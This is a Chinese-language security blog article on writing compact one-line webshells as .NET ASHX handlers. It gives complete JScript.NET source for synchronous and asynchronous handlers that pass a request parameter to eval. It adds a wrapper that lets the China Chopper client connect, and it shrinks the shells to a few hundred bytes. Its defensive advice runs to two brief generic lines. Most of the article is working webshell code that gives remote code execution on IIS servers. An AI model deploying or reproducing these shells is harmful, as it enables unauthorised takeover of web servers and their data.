






探索基于.NET下实现一句话木马之ashx篇
====================================

**Ivan\@360云影实验室**

**2018年07月17日**

0x01 前言
=========

在渗透测试的时候各种PHP版的一句话木马已经琳琅满目，而.NET平台下的一句话木马则百年不变，最常见的当属下面这句

| \<%\@ Page Language="Jscript"%\>\<%eval(Request.Item["pass"],"unsafe");%\> |
|----------------------------------------------------------------------------|

想必这句话已经成大多数防御产品的标准样本，除此以外还有上传文件的一句话，像这种的从严格意义上不能算是一句话木马，只是一个简单的上传文件的功能，实际的操作还是大马或者小马的操作行为。

| \<%if (Request.Files.Count!=0) { Request.Files[0].SaveAs(Server.MapPath(Request["f"]) ); }%\> |
|-----------------------------------------------------------------------------------------------|

笔者感觉有必要挖坑一下.NET平台里的一句话木马，经过一番摸索填坑终于可以总结出了.NET下的三驾马车，于是乎有了这个系列的文章。今天是第一篇着重介绍一般处理程序
（ASHX）下的工作原理和如何实现一句话木马的介绍，当然介绍之前笔者找到了一款ashx马儿
<https://github.com/tennc/webshell/blob/master/caidao-shell/customize.ashx>

这个马儿已经实现了菜刀可连，可用，还是挺棒的，但因为体积过大，并且在服务端实现了大多数功能，其实更像是一个大马，只是对客户端的菜刀做了适配可用，所以不能说是一句话木马了，至于要打造一款居家旅行必备的菜刀马，还得从原理上搞清楚
ashx的运行过程。

0x02 简介
=========

从Asp.Net
2.0开始，Asp.Net提供了称为一般处理程序的处理程序，允许我们使用比较简单的方式定义扩展名为ashx的专用处理程序。对于Asp.Net应用来说，网站最快的处理结果就是HTML网页，生成网页的工作通常使用扩展名为Aspx的Web窗体来完成。对于处理结果不是HTML的请求，都可以通过一般处理程序完成。例如生成RSS
Feed、XML、图片等。
一般处理程序是Asp.Net应用中最为简单、高效的处理程序，在处理返回类型不是HTML的请求中有着重要的作用。通常是实现IHttpHandler接口，因为不必继承自Page类，所以没有那么多事件需要处理，不必消耗太多资源，所以性能方面要比Aspx高。

当Http请求进入 Asp.Net Runtime以后，它的管道由托管模块（NOTE：Managed
Modules）和处理程序（NOTE：Handlers）组成，并且由管道来处理这个 Http请求。

HttpRuntime将Http请求转交给
HttpApplication，HttpApplication代表着程序员创建的Web应用程序。HttpApplication创建针对此Http请求的
HttpContext对象，这些对象包含了关于此请求的诸多其他对象，主要是HttpRequest、HttpResponse、HttpSessionState等。这些对象在程序中可以通过Page类或者Context类进行访问，而接下来的一句话木马就是通过Context类进行请求交互的。

0x03 一句话的实现 
==================

3.1、同步处理：IHttpHandler
---------------------------

首先可以打开C:\\WINDOWS\\Microsoft.NET\\Framework\\v4.0.30319\\CONFIG\\
目录下的web.config 文件，找到httpHandlers结点，应该可以看到如下这样的代码

.Net
Framework在处理Http请求时的所采用的默认Handler。而如果我们要用编程的方式来操控一个Http请求，我们就需要实现IHttpHandler接口，来定制我们自己的需求。IHttpHandler的定义是这样的：

| public interface IHttpHandler { bool IsReusable { get; } void ProcessRequest(HttpContext context); } |
|------------------------------------------------------------------------------------------------------|

由上面可以看出IHttpHandler要求实现一个方法和一个属性。其中
ProcessRequest，从名字(处理请求)看就知道这里应该放置我们处理请求的主要代码。IsReusable属性，MSDN上是这样解释的：获取一个值，该值指示其他请求是否可以使用
IHttpHandler
实例。也就是说后继的Http请求是不是可以继续使用实现了该接口的类的实例。如果返回true，则HttpHandler能得到重用，或许某些场合下，是可以达到性能优化的目的。但是，它也可能会引发新的问题：HttpHandler实例的一些状态会影响后续的请求，也正是由于这个原因在默认情况下，都是不重用的。在通常情况下，当实现IsReusable时返回false，虽然性能上不是最优，但却是最安全的做法。

了解了基本原理后，笔者开始手动打造一句话小马，这个马儿要和PHP或者同胞兄弟Aspx一样，仅仅在服务端存放体积很小的一段代码，参考Aspx一句话木马的实现原理，发现是基于Jscript.Net语言中的eval方法去执行任意字符串的，所以首当其冲考虑用Jscript，并且需要实现IhttpHandler这个接口，查询资料后得到在Jscript.Net和VB.Net中均采用implements去实现，最终写出一句话木马服务端代码：

| \<%\@ WebHandler Language="JScript" class=" HandlerSpy "%\> import System; import System.Web; import System.IO; public class HandlerSpy implements IHttpHandler{ function IHttpHandler.ProcessRequest(context : HttpContext){ context.Response.Write("\<H1\>Just for fun, Do not abuse it! Written by \<a href='https://github.com/Ivan1ee'\>Ivan1ee\</a\>\</H1\> "); eval(context.Request["Ivan"]); } function get IHttpHandler.IsReusable() : Boolean{ return false; } } |
|----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|

这里有必要简单的介绍一下Jscript.Net的语法；和大多数语言类似导入命名空间也是通过Import，以下摘自微软描述

| **import** 语句在名称提供为 *namespace* 的全局对象上创建属性并将其初始化，以包含对应于所导入命名空间的对象。 任何使用 **import** 语句创建的属性都不能赋给其他对象、删除或枚举。 所有 **import** 语句都在脚本开始时执行。 |
|--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|

方法名中的参数和类型之间用冒号分割 ，一对括号外的是返回的类型 。可参考下图

如果要访问类中的属性，需使用 function get 语句，可参考下图

Jscript简单语法就介绍到这里，更多的语法可参考微软官方文档：<https://docs.microsoft.com/zh-cn/previous-versions/visualstudio/visual-studio-2010/z688wt03(v%3dvs.100)>

万事俱备，打开浏览器输入 context.Response.Write(DateTime.Now.ToString())
成功打印出当前时间

3.2、异步处理：IHttpAsyncHandler 
---------------------------------

在ASP.NET程序中，适当地使用异步是可以提高服务端吞吐量的。
这里所说的适当地使用异步，一般是说：当服务器的压力不大且很多处理请求的执行过程被阻塞在各种I/O等待（以网络调用为主）操作上时，
而采用异步来减少阻塞工作线程的一种替代同步调用的方法。
反之，如果服务器的压力已经足够大，或者没有发生各种I/O等待，那么，在此情况下使用异步是没有意义的。那么在HttpHandler的接口里要想支持异步，则必须使用另一个接口：IhttpAsyncHandler

这个接口也很简单只有二个方法，在.net中，异步都是建立在IAsyncResult接口之上的，而BeginProcessRequest
/
EndProcessRequest是对这个接口最直接的使用方式。笔者通过创建一个C\#的Demo来演示异步处理的过程

| public class ashxSpy1 : IHttpAsyncHandler { public delegate void someDelegate(); public static void writeFile() { StreamWriter wickedly = File.CreateText("d:\\\\test.txt"); wickedly.Write("test"); wickedly.Flush(); wickedly.Close(); } public IAsyncResult BeginProcessRequest(HttpContext context, AsyncCallback asyncCallback, object obj ) { someDelegate someDelegate = new someDelegate(writeFile); IAsyncResult iAsyncResult = someDelegate.BeginInvoke(asyncCallback, context); return iAsyncResult; } public void EndProcessRequest(IAsyncResult result){} bool IHttpHandler.IsReusable { get { return true; } } void IHttpHandler.ProcessRequest(HttpContext context){} } |
|----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|

值得注意的是ProcessRequest方法和IsReusable属性可以不实现它们，但必须要保留下来，因为这个方法也是接口的一部分。核心方法是BeginProcessRequest，其中参数asyncCallback是一个内部委托，那么就需要定义一个委托，将来通过异步的方式回调自定义的方法writeFile
来写入文件。

知道原理后就开始着手打造异步调用的一句话木马，和IhttpHandler一样需要通过Jscript.Net的eval方法去实现代码执行，有点遗憾之处笔者查询资料后发现Jscript.Net暂时不支持委托类型，不过只需要在BeginProcessRequest方法里增加HttpContext.Current.Response.End();就可以实现功能并且不让程序抛出异常，实现的代码如下：

| \<%\@ WebHandler Language="JScript" class="AsyncHandlerSpy"%\> import System; import System.Web; import System.IO; public class AsyncHandlerSpy implements IHttpAsyncHandler{ function IHttpAsyncHandler.BeginProcessRequest(context : HttpContext,asyncCallback :AsyncCallback , obj : Object ) : IAsyncResult { context.Response.Write("\<H1\>Just for fun, Do not abuse it! Written by \<a href='https://github.com/Ivan1ee'\>Ivan1ee\</a\>\</H1\>"); eval(context.Request["Ivan"]); HttpContext.Current.Response.End(); } function IHttpAsyncHandler.EndProcessRequest(result : IAsyncResult){} function IHttpHandler.ProcessRequest(context : HttpContext){} function get IHttpHandler.IsReusable() : Boolean{return false;} } |
|-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|

打开浏览器，测试效果如下

0X04 菜刀连接 
==============

圈内常说武功再高，也怕菜刀；那么就有必要了解一下菜刀在连接ASPX的时候会发送什么数据了，经过抓包得到下图的请求

对于.NET平台的应用程序默认连接后发送的可执行字符串是Response.Write，而这样的输出需要继承的对象是Page类，所以至今为止，在菜刀的层面.NET下仅支持ASPX，再来看一般处理程序中已经继承了HttpContext对象实例化后的变量context，由此可以构造出

| var I = context; var Request = I.Request; var Response = I.Response; var Server = I.Server; eval(context.Request["Ivan"]); |
|----------------------------------------------------------------------------------------------------------------------------|

修改好后用菜刀连接成功，如下图

基于优化考虑将HandlerSpy.ashx进一步压缩体积后只有531字节，而AsyncHandlerSpy.ashx也才719字节。

0x05 防御措施
=============

1.  通过菜刀连接的方式，添加可以检测菜刀关键特征的规则；

2.  对于Web应用来说，尽量保证代码的安全性；

0x06 小结
=========

1.  文章中不足之处在于Jscript异步处理的时候没有能够用委托的方式去调用，这是一个遗憾，如果有同学提出了更好的解决方法，欢迎多多交流；

2.  还有本文提供了两种方式实现ashx一句话的思路，当然还有更多编写一句话的技巧有待发掘，下次将介绍另外一种姿势，敬请期待；

3.  文章的代码片段请点[这里](https://github.com/Ivan1ee)

0x07 参考链接
=============

<https://docs.microsoft.com/zh-cn/previous-versions/visualstudio/visual-studio-2010/e2h4yzx6%28v%3dvs.100%29>

<http://www.freebuf.com/articles/web/11687.html>

# 云影实验室长期招聘安全开发工程师 (可实习) / 安全研究员(样本沙箱方向)岗位，有意者可联系笔者微信号  

